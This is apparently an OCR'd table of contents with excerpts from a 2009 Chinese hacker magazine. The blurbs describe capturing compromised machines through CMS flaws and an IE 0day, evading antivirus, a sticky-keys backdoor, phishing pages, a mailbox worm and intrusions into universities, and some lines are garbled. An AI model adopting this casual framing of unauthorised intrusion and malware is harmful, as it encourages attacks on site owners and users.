# 非安全黑客手册合订本2009年①②季第一部分

---

## 黑客手册 2009 合订本

2009年安全①②季

NO. 黑客手册  
nohakc.cn

￥36元

赠

热门超值  
无线黑客菜鸟照顾手册

## 网渗透高手指南系列

- 网络逻辑中的小穴道
- 内网中的信息收集之一：内网结构的探测
- 网渗透之利器兵器 eDuh
- 内网入侵之系统用户密码的收集以及利用
- 用 rootkit 在内网渗透中的应用

## 无线黑客 Wireless Hacking

- 无线攻击技巧系列之一：让 VMware 也能使用 PCMCIA 无线网卡
- 无线攻击技巧系列之二：搜索及发现内网非终端机无线路由器/AP 技巧
- 气味的战争
- 无线破解不只是破解密码——神怪的 MDK3
- 特别缉获——Airsnarf
- 线包是如何中转——神奇生物的 Wifizoo

## 数据包也疯狂①②③④⑤系列

在黑客常用的破解工具里，服务端与客户端的交互是以数据包的传递来实现的效果。如果数据包没有被加密，抓取、构造数据包将顺风顺水。通过这个系列的学习，我们将对抓包和造包的知识有一定的了解，并能有条理地编写一些利用程序。

## 经典 Hack 案例流程

- 黑客机密的渗透英雄
- Oracle 注点引发的主机沦陷
- 物理 VPN 产生的假象
- 从详细的 ISP 方式入侵
- 渗透少年黑客网站
- 曲折的渗透之路

# 黑小说

特仑苏沙洲如尘集

## 安全火热之夏，LIVE CD 引导型 DVD 光盘

- 黑客操作系统之 BackTrack 3 / Ubuntu / Puppy 等
- 影视观看集合
- 电脑和手机动漫教程书电子书
- 更集合黑客工具经典，以及最受欢迎珍藏版
- 090906 系统游戏辅助数据库取双全精品 V1.2
- IIS4 解包、包含（XP2003）内网渗透之神奇工具包
- Aircrack、黑刀、bozen der 3.0、主流病毒相关程序
- ARP xbb3、完全宝蓝、硬盘启动引导工具
- 搜索集合、OPAi 网站集合、灰鸽驱动学习系列
- VM/VM Miley Cyrus（爱某某黑客靶场）7 things official
- Windows CE API 实用 2.0、Windows 核心编程
- AppCan 开发处理器、数据结构 V3.0、网络接触、游戏项目
- HOSTS 修改、ASP 在线反汇编、ASP 源代码
- lanker 一号店、SA 综合调用工具、杀牛按揭教程、Jsp Spy 黑客手机版


## 非安全 黑客手册 2009 ①②季

## 合订本


# 合订本目录



# 新闻时评

- 16 走近“云安全”

### 肉鸡接龙

- 17 Discuz 漏洞再利用之批量抓肉鸡 — winger[bhst]

很多人都没有更改这个一句话木马的内容就拿来使用，用完之后一句话木马也不删除就离开。且不说他们是疏忽还是出于对发布者的尊重，这种情况可以被我们利用，拿到大量肉鸡倒是现成的。

- 18 过年前的最后疯狂——利用 IE 0day 抓鸡 — LC旋律

这个 0day 的价钱传得很疯狂，而且这个漏洞是由中国人发现的，好像还影响 IE8，听说 12 万，疯了。

# 菜鸟恶补

- 18 Vista 也玩 PHP（下） — 上弦月

Apache 的官方为我们提供了 MSI 的安装版本，这让 Apache 在 Vista 下的安装更加容易。

- 20 数据包也疯狂（一） — xiaoy

服务端与客户端的交互是以数据包的传递实现的。比如，HTTP 消息由客户端到服务器的请求和从服务器到客户端的响应组成，请求消息和响应消息分别实现从客户端向服务器发送请求报文和从服务器到客户端的回答。在某些通信中，如果数据包不加密，那么将会非常危险，黑客可以轻松地截获数据包的内容，经过改包之后再转而提交，或者模拟客户端发送 HTTP 请求，而造成服务器形成或返回黑客想要的响应。

### 酷玩

- 22 不用密码也能查看加密 QQ 相册 — 无敌小龙

前段时间空间的加密日志可以通过搜索查看，现在相册也可以了哦。其实你自己写的内容都是放在公共服务器上的，只要你有资源的地址就能访问。

- 23 QQ 空间 5.0 技术大揭秘 — 郝安山
- 25 QQ 技术全攻略 — 王兴东

想整蛊你的朋友吗？教大家一个恶作剧的小方法，让别人的 QQ 无法登录。

- 26 巧设 QQ 代理，气死嚣张彩虹 QQ — 郝安山（fredom）
- 27 无需登录 QQ 在网页中查看好友资料 — 小坏坏
- 27 不是会员也能穿红钻 QQ 秀 — K-BOXING

### Q版黑客

- 28 中毒后的小技巧放送 — 冰的原点[L.S.T]

经常玩黑的人应该或多或少都中过毒吧！从与病毒、木马等的较量过程中你收获了多少经验呢？这里也只是经验之谈，让你了解更多的实用小技巧而已，也许下一次，本文的招数你就会派上用场哦。

- 29 对《Windows 下建立隐藏文件夹》一文的补充 — 永远的疯子

看了 2008 年第 2 期《Windows 下建立隐藏文件夹》这篇文章后，很有启发。但对作者提出的删除方法本人认为太麻烦了，于是做了个补充，另外还给了一个应用。

- 30 一次对盗号的反击 — black humor @[B.H.S.T]

我可不喜欢打游戏，更不喜欢泡 MM 的号，不吃这一套，更讨厌这种“黑客”。于是想着要怎么来玩会这个“黑客”，先打开那个二级域名的主站看看，说不定是个免费空间提供商。

- 31 对蒙薇 WSYSCHECK 的 Ruser 木马的一点查杀研究 — 无敌小龙（张博）

在中了木马之后，笔者通常都会使用 WSYSCHECK 来查杀这类 DLL 级捆绑型木马，但是奇怪的是，笔者在使用 WSYSCHECK 时，居然无法通过 WSYSCHECK 的“疑似服务查找功能”。

- 33 无线的天空 + 无限的流量——对 0801 期《电脑利用手机无线上网》的补充 — h4ckj0y
- 35 DEKSI Network Inventory：让网络监控了如指掌 — 风之殇

某台电脑的内存条可能被拆掉，硬盘被“偷梁换柱”，甚至服务器被恶意监控等。但是，由于管理对象复杂，加上网络管理软件价格昂贵，有限的预算使得网络管理员只能使用简单的手工管理，这往往会带来很大的工作量。那么，有没有“物美价廉”的方案呢？

- 38 MS08-068 漏洞利用浅析 — JKrose

测试这个漏洞还真使我步步艰难（编辑注：莫非大家都用了 360 打上了补丁……），因此只好到以前的学校机房去测试了。先是测试本机，很容易地就成功了，机房都一个配置，因此可以断定全机房都是没打补丁的了，随便骗占了两台邻近的机器开始测试。

# 黑小说

- 40 断头台 V — 张鹏亮

频见圣诞夜阑珊，非常的邪恶，这种邪恶的情绪传染给了文叔和我，我们对此都一并苦恼。这不是 0day，也不是 SQL 注入和溢出。然而确确实实是我们的数据被盗了。这就好比 YY 小说里面狗血的剧情以及河南版的密室杀人案，看不到任何蛛丝马迹，但公司的下月计划报表被公布到一个行业论坛里，这却是事实。

# 新洞练练看

- 42 看菜鸟也来揭 ACTCMS 2.0 伤疤 — 孤水绕城[L.S.T]

这套程序总的来说还算是很安全的，只是在对上传方面的措施还是没有做到位。这里我们能看到程序员在努力地屏蔽漏洞，可是由于对无组件上传漏洞的发生还不是太了解，造成漏洞的发生。

- 46 迅雷时漏洞浅析和利用 — 初学者

自牛人对讯时 2.7 版本三顾以来（参考《黑手》于 2007.04 期），人们便把目光投向这个密不透眼的新闻系统。虽然讯时一直修补漏洞，不断在升级系统版本（最新版本是 3.5），但讯时系统作者在编写程序时，似乎总是对提交的参数过滤比较混乱。

- 49 Ajax_sohu 博客里的一个小蠕虫 — 小帅 [O.S.T]

最近无聊看了些《越狱》，感觉很刺激，枕头边上还有点 Ajax 的书，无聊就拿出来看了。头脑一热，看到里面的 eval() 和 indexOf() 让我想起了一篇文章。

- 50 QQ 空间的 DOM XSS — 小帅 [O.S.T]
- 51 Pcook CMS V2.1 的安全分析 — 3少
- 52 2月小说网 0day — 熟悉的陌生人

代码采用 ASP 编写，通过此漏洞，可以轻松拿到 webshell，漏洞出在 book.asp 文件中。

# 西线无战事

- 53 黑客和超女的亲密接触
- 55 php+MySQL 得到绝对路径的方法
- 56 另类黑 XX 理工学校
- 57 我的一次完整入侵——渗透 XX 大学
- 59 魔兽再狂也难抵万能权限
- 62 曲折的 Shell，强大的 IIS
- 63 入侵某私服网
- 66 坚持不懈，渗透虚拟主机服务器

编辑点评：看了这篇文章，我想起某油翁的一句话：无它，但手熟尔。熟练掌握了一些漏洞技巧，搞定一个正好有漏洞的站也不是什么难事。

编辑点评：什么是好文章呢？发前人未想，思别人未思，让人眼前一亮的是好文章；另一类就是总结式的了，你看现在的黑客七篇六书，哪一本不是总结式的呢？搜集整理、汇编点评而成的也是好文章。但这篇文章也有缺点，就是主题是好的，但是收集的素材却不够多。像 php 爆绝对路径，还有 php?id=123、phpMyAdmin 等各种版本的漏洞字符；在 Web 目录上有虚拟目录列表、讲 robots.txt 查看等方法。

文章中的 Windows Token Kidnapping 本地提权漏洞，目前好像微软还没出补丁，大家手里如果有大量 WebShell 没有提权的，可以用这个漏洞试试。

但是作为一个入侵爱好者，同时也是为了我的 BLOG 带来的安全考虑，我首先在站点目录下传了海洋顶端 ASP 木马，看看服务器的安全情况。虽然这次虚拟空间服务的安全情况应该相当的好，但我还是决定试一试，检测到组件发现 WSCRIPT.SHELL 和 WSCRIPT.NETWORK 都不在了，看来管理员还是有点经验的。

# 高手专栏

- 69 浅谈 Hacking 中的小技巧

我们一般无法使用 Perl 去做一些想做的事情。比如，当穿透进入服务器，外国服务器执行不了命令而原地踏步，无法继续向最高权限前进。

## 黑器免杀班

- 73 “壳中改籽”轻松免杀
- 74 简单突破 360 安全卫士

加壳时最好选择些生僻壳，这样“壳中改籽”的免杀效果会比较好。此外，不要尝试对木马的配置文件直接进行“壳中改籽”免杀，那样会造成木马配置不成功。

现在推出的一些木马程序，默认都可以突破安全卫士。但是对于灰鸽子这样的老木马，突破起来就有了很多的难度，还好灰鸽子的插件管理功能为我们的操作提供了便利。

# 窗外

- 75 Linews
- 76 FreeBSD 学习笔记（三）
- 77 窗内外文件传输简约方案

作为一台服务器，你可以没有 Apache，可以没有 MySQL，但你不能没有 SSH。安装好一台主机之后首先要配置的也是 SSH，之后你就可以回家躺在沙发上慢慢配置你的服务器了。

## 快码加编

- 78 浅谈 NDIS 中间层驱动下防火墙的实现（二）
- 79 用 DELPHI 把粘滞键程序打造成至尊后门
- 82 利用 VBS 写蠕虫模板
- 83 VB 子类化技术打造 U 盘小偷
- 85 C# 编程穷举得到长城宽带账号密码

在 NDIS 中间层中，驱动程序接收和发送数据包的过程并非我们所想象的那么简单。当底层网卡接收到数据时，它会通知 NDIS 中间层驱动进行接收，中间层驱动会为将要发送上来的数据分配缓冲区，之后下层网卡就会传送数据过来了。

入侵 Windows 系统成功以后，总想接一个隐蔽而又长久的后门，希望它既不会被杀毒软件查杀，又不会引起管理员的注意，能实现基本的后门功能。而对于启用远程登录服务的系统来说，粘滞键后门绝对是最为经典的后门。

### CRACKER

- 87 86说 & 每月投资源
- 88 手工脱某下载者 NsPacK Private 壳

该手法高度隐匿，能躲过很多安全软件及高手的追杀。使用 PEiD v0.94 查壳，提示为“什么都没找到 *”，改用深度扫描提示为“ANDi007 V1.0-V2.X -> NsPack Private *”。

# 读编互动

- 89 Q&A
- 90 29号信箱



# 新闻时评

- 92 诺基亚的噩梦

记得那篇文章中提到“品牌手机用户不用担心”，好多人都松了一口气。那么，今天我带来的就是手机大户 NOKIA 的噩梦。

# 菜鸟恶补

- 93 数据包也疯狂（二）

我们会想到一个可以免费、无验证码、无限制发短信，集诸多“优良”条件于一身的网站，似乎是不可能了。

### 酷玩

- 96 cooloo 典藏——将 QQ 恶搞进行到底
- 97 一招彻底干掉 QQ 安全中心
- 98 小菜来揭穿骗子的面纱

越来越自私了，珊瑚虫被它干掉了，现在连彩虹也不放过，我们这些穷用户哪有兴趣去使用它那些收集垃圾呀。

我申请的时候故意将密码设置得相当复杂，于是我决定逆向来看一下，结果却发现了戏剧性的一幕：原来我只是申请了网易通行证，而邮箱还没有开通呢。

# 合订本目录

### Q版黑客

- 98 多种方法绕过 Windows 登录验证
- 100 VPN 的简单配置
- 102 金盘电子阅览室管理系统 v7.0.8 版之免费上网
- 103 巧用网络小命令突破上网封锁
- 104 教你突破下载站封锁线

# 新洞练练看

- 105 读新术——基于开源代码更新的漏洞挖掘技巧
- 108 最新 IE 0day shellcode 提取和剖析
- 110 JSP 脚本安全分析（一）——Eron 留言本分析
- 111 挖掘魅力企业网站管理系统 2007 漏洞
- 113 IT时空吧网站程序防注入文件分析
- 114 带问题来投稿——手把手使用 Jsky 和 Pangolin 实战高效漏洞挖掘

# 西线无战事

- 116 一个 Oracle 注点引发的主机沦陷
- 118 渗透 XXXX
- 121 渗透 XX 信息安全网
- 124 意外进入某大学内部网络
- 127 左边旁门的渗透
- 129 友情检测翻空门门户网
- 132 入侵某黑客网站
- 133 菜鸟恶补之 Cookie 注入
- 138 拿什么拯救你，我的旁注
- 139 记一次入侵某大学的全过程
- 142 “西线无战事”被社工了

# 高手专栏

- 144 内网渗透中的小工具（一）
- 146 域内网中的信息收集之一：内网结构的探测

## 黑器免杀班

- 148 构建差分硬盘虚拟机的免杀测试环境

# 窗外

- 152 Linews
- 153 Linux 系统级优化简明手册

# 合订本目录

还可以减少安全隐患。检查自己系统使用中的服务，可以使用 nmap 工具扫描。

## 快码加编

- 156 浅谈 NDIS 中间层驱动下防火墙的实现（三）

UESTC@凝聚网络安全工作室 _ay

在上期的 PtReceive 的示例代码中，PacketAnalysis 就是我们提取数据包地址的函数。在 PacketAnalysis 中我们只要从 NDIS_PACKET 结构中得到 NDIS_BUFFER 结构，这是一个链表结构，然后遍历这个链表就可以得到数据包的内容了。

- 157 远程控制软件界面美化之数字彩色进度条

杨阳 李文娟

远程控制软件在上传文件或者下载文件的时候，都有一个进度条来表示上传或下载的进度，我们可以通过 VC 中 MFC 的“Progress”控件来实现。通过 MFC 的“Progress”控件实现的进度条显示进度时是简单的蓝色，本文将教给大家通过 MFC 的“Progress”控件和自定义扩展来实现数字彩色进度条的方法。

- 160 用 Asp 编写钓鱼网页盗 Yahoo 邮箱

李勃杰

网络钓鱼不是什么新兴的技术，在当今更是应用得非常普遍。今天我们就来了解一下用 Asp 怎样编写一个钓鱼网页，盗取 Yahoo 的邮箱，以及如何对所盗得的信息进行保护，不让他人窃取。

### CRACKER

- 161 10086 新年 & 每月被盗溯源
- 162 手动脱未知壳

December

未知壳，是与已知壳相对而言的，世上本没有“壳”，但写的人多了，壳就出来了。未知壳，是我们在破解中经常会碰到的，只要你是玩破解的，就无可避免地会遇上，如果还没遇上的话，那只是时间问题而已。

# 读编互动

- 164 Q&A

徐师傅

- 165 29号信箱



# 新闻时评

- 167 从卫星撞击事件展开联想

### 肉鸡接龙

- 168 杰奇小说 0day 再掀抓鸡狂潮

LC旋律

在小说系统中使用率最高的杰奇小说爆出了一个严重的漏洞，攻击者可以通过这个漏洞来直接获取目标网站的 webshell。

# 菜鸟恶补

- 169 对 Windows 两个组件的介绍和联想

孤水绕城[L.S.T]

可能官方解释有点晦涩难懂，其实这个组件很简单；就是可以替代 mstsc 远程桌面连接这个程序，使我们能够在浏览器中或 Visual Basic 应用程序中实现对终端服务（就是小黑们常说的 3389）的连接。

- 172 数据包也疯狂（三）

xiaoy

这期给大家带来的是 Web 程序漏洞利用工具的编写！也许你已经具备了查找漏洞的能力，一直就梦想着发布亲手自己命名的 Exp（虚荣心作怪呀）。说实话，我觉得这样的文章挺难写的，因为划分在“菜鸟恶补”一块，写得涉及到编程了，估计大家也不爱看。

### 酷玩

- 174 “流量统计”助我拿好友 IP

swan

自从彩虹 QQ 被封杀后，窥视好友的 IP 成了网虫们的一大难题。现在常见的方法是利用防火墙以及查看端口等方法来查看好友的 IP，其实获取好友显示 IP 的方法还有一种。

### Q版黑客

- 175 轻松破解防盗链系统

i 深蓝浅蓝

防盗链也是用代码写的，只要是代码不够严谨，一样是会被变成筛子的。说到 Referer 欺骗，大家留心一下，好多程序都存在这样的问题。

- 176 非常规运行 exe 的一些思考

请远长顾[B.B.E]

以后要使用这个程序时，只需要运行这个 bat 文件就行了呗？这样一来，你的 U 盘里就没有 exe 了，那些按后缀名来决定是否感染的木马、下载者就不会光顾你了，这样也安全很多。

# 黑小说

- 177 特仑苏 I

九叔

却发现这个美女一边嚼特仑苏，一边吃五衣粉丝，那浓浓的酷奇气息扑着空气袭了过来。不过老实说，这是一种很奇特的习惯，高贵的特仑苏和廉价的光友粉丝无论如何也不太搭调。

- 178 The Way You Make Me Feel

Cherish

你知道吗？每次见你之前我都想超好多，我要想你要不要弄网站；要不要忙着《黑客手册》的投稿；要不要抽点时间种木马抓肉鸡；要不要和网友 QQ 些经验，我的心真的好累。

# 新洞练练看

- 180 从分析齐客 CMS 注射 0day 到思维拓展

落叶纷飞[JJSEX] @ 蜜罐端中

好像并没有人做详细的分析，这次我们就来分析一下这个漏洞的成因，存在注射的 URL 是“/common/comment.asp?dataid=14789&channel=down”。

- 182 全面剖析马克斯电影网站注射 0day

落叶纷飞 @ 蜜罐端中

马克斯电影网站管理程序几乎占领了国内 ASP 电影系统的所有市场，一直以来它都并未爆出过危害比较大的漏洞。这不，最近无聊下了这套程序的 2.0 最新版来读，发现其存在几处严重的漏洞。

- 185 “asp 安全续谈”：补遗

孤水绕城[L.S.T]

文章中分别写了“session 安全”“robots.txt 安全”“数据库安全”及“网站目录安全”这几块内容，感觉对于 ASP 网站安全涉及的东西很多，也很杂，只写这几个方面感觉有点单薄，所以就想写个续篇。根据自己以前拿站，还有对网站源码分析的经验和总结，说说自己对于 ASP 网站安全的看法。

# 合订本目录

# 西线无战事

- 189 粉碎 VPN 安全的假象——PPTP VPN 攻防实战
- 192 WMI 之原始入侵法
- 193 黑盒＋白盒入侵站点
- 195 空气中的战争
- 197 利用 Shell Injection 进行入侵
- 201 路由器交换机入侵方法大揭秘
- 203 我的入侵笔记——对所在大学的安全检测
- 207 一篇论文引发的入侵——记对当地医科大的渗透检测

Christopher Yang / 杨哲 [ZerOne]
多多数管理员及用户对于 VPN 的看法都是：VPN 环境已经属于高级别安全防护，又以保证企业内部信息通信的安全与稳定。那么，事实真的是这样么？VPN 真的会如此无懈可击么？下面我就带大家来揭开 VPN 薄弱的面纱，看看黑客们是如何进行 VPN 攻击的。

好像年前有篇文章是用 WMI 命令来入侵网吧的电脑，后来由于不知道用什么命令来实行 CMD 命令，结果作者就又用 Remoxacc 这个工具来攻击了，今天我就是给他那篇文章的补充。

sniperhg [O.S.T]

这篇文章你是当作小说看还是当作说明文去看呢？

OrphousV

BloodSword @ Okee & vtwo
好像是什么大学生求职/兼职类型的网站，这年头，大学生找个工作也不容易呀，更别说我们这些没上大学的人了。

冯谷 / 张淼
路由器和交换机在默认配置下存在严重的安全漏洞，如果不修改相关的默认配置，攻击者很容易就能拿到路由器或交换机的控制权。

Dream an end
还没来得及总结成长的经验，大三的上半学期时间溜走了，在这半年里，由于太忙，从没细心地对我们大学做过安全检测。为了这半年不留遗憾，在考试的最后一天，对其中的服务器做了次检测。

安天 365 团队

# 高手专栏

- 212 内网渗透之神奇兵器 reDuh
- 213 幸运的跨站

NP
何谓 reDuh 呢？按其官方的意思，就是用 JSP、PHP、ASPX 的 Socket，把我们传输的数据进行转发后，变成有效的 HTTP 请求，然后传送到服务器并解码还原后重新定向数据到指定端口的 WEB 隧道程序。

lcx

## 黑器免杀班

- 214 打造属于自己的数字签名

蜀国布衣
自从“云计算”这个概念被提出后，很多杀毒软件也纷纷抛出了“云安全”的概念。其实笔者在使用了多款杀毒软件以后，发现杀毒软件对病毒的防护，主要还是基于特征码和主动防御两个方面。至于“云安全”，则是在病毒安装以后，才能发挥出其在进程检测方面的某些优势。

# 窗外

- 216 Linews
- 216 虚拟机下安装 64 位版 Mandriva 2009
- 217 无线攻击并不只是破解密码——搞怪的 MDK3

知识型流氓 [LST]
新版本的 Mandriva 2009 大胆地采用了 KDE 4.1.2 作为桌面系统，还整合了很多最新的特性和工具，启动时间约比以前快了 25%，用“惊艳”这个词来形容 Mandriva 2009 丝毫都不夸张。

AnOnYMouS
MDK3 是一种利用 IEEE 802.11 协议漏洞的无线攻击工具，可产生大量或特定虚假无线热点及进行 DOS 攻击，对无线路客户端与无线路由器很有威胁，此类攻击很难有效被防御。

## 快码加编

- 219 反弹木马编写之灰鸽子文件管理模拟（上）
- 222 详解系统端口监视报警器编写——从原理分析到最终安装包制作
- 224 用 VB 编写 U 盘恢复精灵
- 225 漫话溢出 II
- 228 C# 打造 SA 另类入侵工具
- 230 JAVA 实现 TCP 端口扫描

无敌小龙

夜翼
编写程序最难的不是语言学得多少，应用得如何，而是这个程序的运行思想，也就是编写思路才是最重要的！刚入门的新手一定要培养起这么一种观念。软件只是被用来帮助我们重复劳动用的，不是黑客的全部，也不是在入侵时最重要的东西。

李劼杰
遇到弱的还倒好，要是厉害的病毒，把 exe 文件头一修改，那才叫惨，自己写的程序全部报感染，只有被迫全部删除，重新生成可执行文件。今天就来简单编写个 U 盘恢复精灵吧，应付普通的 U 盘病毒侵袭。

OrphousV
这次要谈的内容，只要看到底，保证血流舒畅，暖意融融，不过会不会出现搞原始乳化反应，在下就不敢保证了。对溢出有点了解的读者，这次要讲的内容应该说得比较顺畅，没接触过的，也不用担心，放块薄氧气乎，准备启程。

梦幻剑客
可是有时候遇到的服务器报 BT，当方法不能奏效的时候不妨用本文介绍的一种存储过程 sp_makewebtask。

曹云龙

### CRACKER

- 231 10086&每月破资源
- 232 再战未知壳的脱壳——esp 定律的妙用（一）
- 234 移动加密大师 ulock 的破解之路
- 236 简单破解 mp3 转换程序

December
随着抓鸡啊、挂马啊等子技术的发展，马马的免杀处理方面越来越显得重要起来，连以前的一些黑客高手也不得不暂时放下手头“工作”，去学习如何免杀，以期望让自己的马马能够存活得久一点。上述我写了一篇《手动脱未壳完》，将这篇与上篇连起来学习，效果更佳。

小龙

冷雪书生
于是又试试另外一个软件，叫宽网 MP3 转换录音器，可是要注册。我在软件破解这方面比较弱智，一看到这个心里自然就不爽，但我太喜欢这首歌了，所以决定碰碰运气，没准还能成功呢。

# 读编互动

- 238 Q&A
- 239 29 号信箱

## 2009.04

# 新闻时评

- 241 3G 时代的安全

# 菜鸟恶补

- 242 数据包也疯狂（四） 黄正
- 244 浅谈操作系统原理（一） 五岳 Jian 派 HackRain

这期通过使用 WPE 过滤器的功能讲解外挂原理，没有出现编程相关的内容，小菜们打起精神来，不会头疼的。

如同你在食堂打饭，排队的人可以看成是 PCB，排成的队列就是 PCB 链。你手中等待盛饭的饭盒好比进程，食堂只有一个窗口供应饭菜，负责打饭的师傅如同 CPU，所有的饭菜（包括饭菜的材料）就是所有 CPU 资源。

### 酷玩

- 246 超级 QQ 最新 BUG——免费亮图标 郝安山
- 247 QQ 空间 5.0 技术大揭秘（续篇） 郝安山
- 248 转变思路之狂刷欢乐斗地主欢乐豆 无敌小龙
- 249 QQ 酷玩之小菜玩转 WEBQQ CG.dou
- 250 免费无限使用隐身可见功能 无敌小龙
- 251 查看自己是否在对方 QQ 好友中 +☆白开水

这是不受网上流传的超级 QQ BUG 影响的，那个 BUG 已经被封掉 N 久了，小菜我又不是火星人，又炒冷饭。这是才出现不久的超级 QQ 漏洞，就是为像我一样的图标一族研究所开发的，也就是说免费点亮超级 QQ 图标。

### Q版黑客

- 251 黑客人肉搜索 职业色狼
- 253 为了一个 QQ 号的一系列社工 小手一背 [ESST] &[二进制]
- 256 精彩的社工 Z.Y 傻飒
- 257 怎样才能突破封锁隐身 BT 下载？ BT 狂人
- 258 E-Mail 欺骗，你也行！ 牟晓东

今天给大家带来一篇黑客类的人肉搜索。最近总是听网上说人肉搜索很是凶猛，大概了解了一下，“人肉搜索”是一种类比的称呼，主要是用来区别于传统的搜索引擎，它主要是指通过集中许多网民的力量去搜索信息和资源的一种方式。它包括用互联网的机器搜索引擎（如百度等），及利用各网民在日常生活中所能掌握的信息来进行收集信息的一种方式。

盘符里东西不少啊，黑客工具、美国大片应有尽有，但没有什么存放密码的文本文档，此时忽略有点迷了。再浏览着看 UFO SHELL 还有啥能值得利用的吧。看到了有个读取缓存口令的功能，于是我就点了下，此时发现他登录过好多网站。

我：是这样的，学校要在 9 年级里面进行一次文化巡礼，我负责的是收集相关资料，但是资料很多，我这里又没有带 U 盘，请问有什么办法把资料转移一下？
王：哦，那样的话你可以在网上的一些网盘临时放一下，或者刻录在光盘里面。

有的平台局域网内允许 BT 下载，但是速度非常慢，如果你想突破这类限制，应该怎么办呢？如果你在 BT 下载时又不想暴露自己的 IP，希望能进行隐身 BT 下载，该怎么办呢？

假设现在如果让对方收到一封用户名为 Webmaster（网站管理员）的 E-Mail，而信件与对方所使用的邮箱是同属一家的（比如 Sohu、126 等等），而且要做到这一点非常容易，因为在 Internet 上有专门提供此类服务的网站，它可以任意构造 E-Mail 的发送邮箱地址。

# 黑小说

- 260 特仑苏 II 九叔

几十天前，我每天工作 12 小时，一个月工作 31 天；几十天后，我每天工作 8 小时，一个月工作 20 天，薪水上涨了 40%。造成这种局面的原因不是我的勤劳被领导所认可，而是……我换工作了。

# 新闻练练看

- 260 shopex 网上商城漏洞分析与利用 rabbitsafe
- 262 Art2008 漏洞分析 梦幻剑客
- 265 宜昌电脑网络公司 v2.8 版漏洞分析 封杀
- 267 分析快捷留言簿 V10.09 昔日赤子

此漏洞对 shopex 4.7.2 版本有效，成功利用此漏洞可以拿到 Webshell。先到官方下载安装的 shopex 4.7.2 版本，在本地搭建好 shopex，然后对漏洞文件源代码进行分析并利用此漏洞拿到 Webshell。

Art2008 CMS 是一款具有强大功能的基于 ASP 语言的网站管理软件，支持 ACCESS 数据库，它是一款完全开源的程序，用户不需额外安装其它 DLL 组件，其最大的特点是易用，而且 JS 调用方法简单直观。

这回闲着没事，去中国源码下载站下了套源码（宜昌电脑网络公司 v2.8 版），学习着分析了下，不分析不知道，一分析吓一跳。

我下载的是 V10.09 正式版，研究了一下代码，跨站方面做得挺好，该过滤的都过滤了，而且限制挺严，跨站是没有什么问题了，那就有注入吧。

# 西线无战事

- 268 友情检测某某数码 Rabbitsafe
- 270 对某某大学红旗在线的一次友情检测 上帝之爱
- 272 曲折入侵某地方传媒网 4ler [S.C.T]
- 274 渗透某某电脑教育集团 晓华 & 夜枫
- 278 透过 Jonas 拿下某高校的 WebShell Mickey
- 280 一次详细的 JSP 跨站入侵 菲子
- 286 渗透某某江湖 故爱的就是你

最近，shopex 4.7.2 爆出了一个非常严重的漏洞，由于网站 syssite/shopadmin/order_service.php 后台文件没有设置访问权限，而且还存在注入漏洞。

首先是网站存在低级的注册漏洞，从而致使我进行注射拿到 web 权限，进而提权拿到服务器，所以一定要重视注册漏洞，加强安全防护。

某日在一论坛转悠，看到一条新闻，恰好感兴趣，点击 URL 进入了一个地方传媒网站，很巧 URL 刚好符合我的胃口，轻轻地加了一个单引号，出现了……

我们的主要目标是拿下这个教育集团旗下各省分校网站系统及主站系统服务器。

如果入侵的网站的安全水平超越了自己的黑客知识范围，在想法用尽却毫无进展时，暴力破解就是必须的了。

大家都知道，无论是否致命，注射后两个页面返回的内容不一样就说明服务器不是绝对安全的，是存在注入漏洞的！而对于 JSP 脚本来说，无论是在什么样的服务器下，它的权限也是非常高的。

后来分析，我们插入一句话没有成功是因为插入在“系统管理”里面的“网站配置”里了，因为这种方法弄了 N 久，这套程序正好被程序员过滤掉了这种方法。某夜里通过“发布公告”插入成功的，因为当时他把数据库下载后进行了查看，我们当时就是太粗心了。

# 合订本目录

# 高手专栏

- 289 Tamper Data 插件在 XSS 测试中的小技巧

Tamper Data 是一个 Firefox 的插件，它可以截获普通网页、Ajax 应用程序及 Flash 的 HTTP 请求，适用于分析请求流程、请求参数、请求数据、重定向 URL。在 XSS 中，我们主要使用它截获数据包、修改后再提交的功能。

# 窗外

- 290 Linews
- 290 无线钓鱼能手——Airsnarf

Rogue AP（恶棍 AP），即是对无线路由器自身系统进行修改，或使用具有可建立无线 AP 功能的网卡（使用 Zydas、Atheros 等芯片组），来模拟成一个无线 AP，且在上面建立一套钓鱼实验登录页面，欺骗连接到此热点的用户输入敏感信息的无线热点。

- 292 无线包裹加工站——锻造宝物的 WifiZoo

当你还把注意力都集中在关注破解 WEP 时；当你还沉迷于密码破解出来获得的成就感时，有没有想到你刚刚为了收集 Data（IVs），而使用 airodump-ng 制造出的那庞大的 Cap 文件是另一个宝库呢？

## 快码加编

- 294 漫话溢出 III

栈溢出比较简单，流程也很清晰，大体可分为三个步骤：上座、瞄准、射击。

- 295 远程控制软件编程之界面编写

远程控制软件的编写不仅是对套接字的编程，其界面设计也是非常重要的。是否拥有布局合理、交互方便、清楚整洁的界面是判断远程控制软件性能优劣的一个重要指标。

- 299 搬砖引玉——代码传输后门初探

何为代码传输呢？一句话木马，这个大伙都知道吧（不知道可要打 pp 咯）？一句话木马就是把本地的脚本代码直接传输到服务器上执行，而代码传输后门也是同样的道理，就是通过客户端把相应的代码传输到服务器上执行。

- 301 打造邮箱蠕虫

21cn mail worm 大功告成，被感染的 21cn 邮箱用户只要点击受感染邮件，就会向她地址簿里的所有联系人发感染邮件，21cn 邮箱蠕虫大爆发咯。

- 305 左手回踩，右手留言——玩转校园网人气

